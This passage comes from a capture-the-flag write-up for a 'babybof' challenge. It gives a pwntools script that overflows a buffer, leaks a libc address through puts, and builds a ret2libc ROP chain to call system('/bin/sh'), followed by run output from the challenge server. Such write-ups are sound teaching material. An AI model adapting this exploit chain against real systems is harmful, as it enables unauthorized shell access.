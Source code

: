 ```python3
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] # Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

base = b"A"*256 + b"B"*8 #Overflow buffer until return address
# Create rop chain
rop = base + p64(POP_RDI) + p64(LIBC_START_MAIN) +  p64(PUTS) + p64(MAIN)

#Send our rop-chain payload
p.sendline(rop)

#Parse leaked address
print(p.recvline())
print(p.recvuntil("name: "))
received = p.recvline()
received = received.strip()
print(received)
leak = u64(received.ljust(8, b"\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

rop2 = base + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
p.sendline(rop2)
p.interactive()
p.close()
```

Run the script:
```console
$ python3 exploit.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] '/home/user/castorsctf/babybof1pt2/bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loaded 14 cached gadgets for './bof'
[*] '/home/user/castorsctf/babybof1pt2/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts@plt: 0x400590
[*] __libc_start_main: 0x600ff0
[*] pop rdi gadget: 0x4007f3
b'Welcome to the cybercastors Babybof\n'
b'Say your name: '
b'\xc0\xef\xe2\xa4o\x7f'
[*] Leaked libc address,  __libc_start_main: 0x7f6fa4e2efc0
```